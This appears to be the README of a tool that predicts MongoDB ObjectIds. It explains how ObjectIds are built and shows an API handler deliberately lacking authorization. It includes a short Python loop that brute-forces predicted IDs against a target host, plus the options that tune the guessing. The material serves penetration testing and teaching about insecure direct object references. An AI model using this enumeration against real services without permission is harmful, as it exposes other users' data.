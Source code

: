 ## Mongo ObjectId introduction

[Mongo ObjectId](https://docs.mongodb.com/manual/reference/method/ObjectId/)s are generated
in a predictable manner, the 12-byte ObjectId value consists of:

 * a 4-byte value representing the seconds since the Unix epoch,
 * a 3-byte machine identifier,
 * a 2-byte process id, and
 * a 3-byte counter, starting with a random value.

Some web and REST APIs use these as resource IDs, and because developers believe they
are randomly generated or difficult to guess, they are also frequently used as (a very
weak) authorization layer: if you know the ObjectId then you have to be the right
user.

A potentially vulnerable REST API will look like this:

```http
GET /pet/5ae9b90a2c144b9def01ec37 HTTP/1.1
Host: vulnerable.com
X-API-Key: ...
```

And the code that handles that request (notice the lack of authorization):

```python
@route('/pet/{id}')
@is_authenticated
def handle_get_pet(id):
    return PetFromMongoORM.get(id)
```

## Predicting Mongo ObjectIds

The tool I created will predict Mongo ObjectIds given a valid initial value:

```
./mongo-objectid-predict 5ae9b90a2c144b9def01ec37
...
5ae9bac82c144b9def01ec39
...
5ae9bacf2c144b9def01ec3a
...
5ae9bada2c144b9def01ec3b
```

Usually you'll use this tool together with Burp, or your own custom script in
order to brute-force a resource:

```python
import requests

from mongo_objectid_predict import predict

for objectid in predict('5ae9b90a2c144b9def01ec37'):
    response = requests.get('http://target.com/resource/%s' % objectid)
    process_response(response)
```

## Controlling the prediction process

There are two command line parameters which will control how many potential mongo
ObjectIds are generated: `--counter-diff` and `--per-counter`.

Counter diff will control the iteration over the last 3 bytes (the counter) of the
ObjectId. So, if the last 3 bytes from the base ObjectId were `000020`, you can control
how much to increment or decrement this value using `--counter-diff`. By default we set
it to `20`.

Per counter will control the first 4 bytes of the ObjectId: the epoch time. For each
newly generated counter (last 3 bytes) the tool will generate N `--per-counter` epoch
times.

It is important to know that ObjectIds are generated for all MongoDB tables: the counter
will be incremented for objects which are not the one queried by the application. This
means that depending on the way the application was developed, its load, etc. you might
need to play with `--counter-diff` and `--per-counter` until something interesting is
found.

The last parameter you can use is `--backward`. Instead of adding to the counter the tool
will decrease it. The same thing happens with the epoch counter.